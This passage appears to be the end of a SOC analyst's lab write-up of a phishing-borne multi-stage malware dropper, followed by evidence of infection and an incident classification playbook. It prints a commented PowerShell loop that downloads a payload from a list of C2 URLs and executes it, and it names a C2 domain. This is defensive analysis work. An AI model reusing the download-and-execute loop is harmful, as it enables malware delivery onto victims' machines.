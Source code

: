 ```powershell
foreach ($url in $urlList) {
    try {
        # Attempt to download the file from the current URL and save it to the specified path.
        # The empty 'catch' block means that if a download fails, it will silently ignore the error and move to the next URL.
        $webClient.DownloadFile($url, $downloadPath)

        # After a successful download, check if the file size is at least 31,997 bytes.
        # This is a basic check to ensure a valid executable was downloaded and not an error page (which would be smaller).
        if ((Get-Item $downloadPath).Length -ge 31997) {
            
            # If the file size is valid, execute the downloaded malicious file.
            Invoke-Item -Path $downloadPath
            
            # Exit the loop since the mission is complete.
            break
        }
    }
    catch {
        # Silently continue to the next URL if an error occurs.
    }
}
```

**Stage 3: Connection to C2 Infrastructure**
Network logs and sandbox analysis confirm that the PowerShell script successfully made outbound GET requests to the list of C2 domains to download its payload. The initial alert for `qstride.com` was one of these successful attempts.
<img width="1317" height="368" alt="image" src="https://github.com/user-attachments/assets/d5bbbb75-a542-44e2-adf5-74c123b996f7" />

### 2. Confirmation of Success

Multiple pieces of evidence confirm the attack was successful.
*   **User Interaction:** Endpoint logs show the `.doc` file was opened by the user.
    <img width="1003" height="220" alt="image" src="https://github.com/user-attachments/assets/b482c7a1-746a-48eb-a20d-5754ed755b2b" />
*   **Script Execution:** The `Device Action: Allowed` and the logged network connection from `powershell.exe` confirm the second-stage script ran successfully and downloaded the final payload.

## Skills and Tools Utilized

*   **Tools Used:** SIEM, EDR, Network Logs, VirusTotal, Hybrid Analysis
*   **Skills Demonstrated:** Attack Chain Reconstruction, Phishing Analysis, Malware Triage (VBA/PowerShell), LOLBin Technique Recognition, Log Correlation.

## Playbook Solution: Incident Classification

*   **Is Traffic Malicious?** **Yes.** It is a C2 connection initiated by a malicious PowerShell script.
*   **What Is The Attack Type?** **Malware / Multi-stage Dropper.**
*   **Was the Attack Successful?** **Yes.** The user opened the document, and the PowerShell downloader was executed.
*   **Do You Need Tier 2 Escalation?** **Yes.** A successful malware infection requires full incident response.
*   **Incident Classification:** **True Positive.**
